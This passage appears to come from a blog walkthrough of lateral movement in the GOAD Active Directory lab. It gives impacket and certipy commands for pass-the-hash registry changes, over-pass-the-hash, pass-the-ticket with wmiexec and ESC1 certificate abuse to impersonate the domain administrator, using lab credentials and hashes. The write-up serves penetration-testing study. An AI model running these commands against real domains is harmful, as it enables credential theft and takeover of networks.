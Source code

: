 ```bash
reg.py NORTH/catelyn.stark@192.168.56.11 -hashes ':cba36eccfd9d949c73bc73715364aff5' delete -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin'
```

## TGT

### Over Pass the Hash (NT -> TGT -> authentication)

- Get a kerberos ticket from the nt hash

```bash
getTGT.py -hashes ':cba36eccfd9d949c73bc73715364aff5' north.sevenkingdoms.local/catelyn.stark
```

### Pass the ticket

- Now we got the TGT of catelyn we will use it

```bash
export KRB5CCNAME=/workspace/tgt/catelyn.stark.ccache
wmiexec.py -k -no-pass north.sevenkingdoms.local/catelyn.stark@winterfell
```

![lateral_hash_to_tgt.png](/assets/blog/GOAD/lateral_hash_to_tgt.png)

- You could also use the tickets dumped with lsassy using impacket ticketConverter:

```bash
ticketConverter.py kirbi_ticket.kirbi ccache_ticket.ccache
```

![lateral_ptt.png](/assets/blog/GOAD/lateral_ptt.png)

## Certificate

### Pass The Certificate (Cert -> NTLM or TGT)

- Back in our ESC1 case we request a certificate 

```bash
certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC1 -ca ESSOS-CA -upn administrator@essos.local
```

- With certipy we can request the ntlm hash of the user and the TGT too

```bash
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

![lateral_certificate.png](/assets/blog/GOAD/lateral_certificate.png)

## References
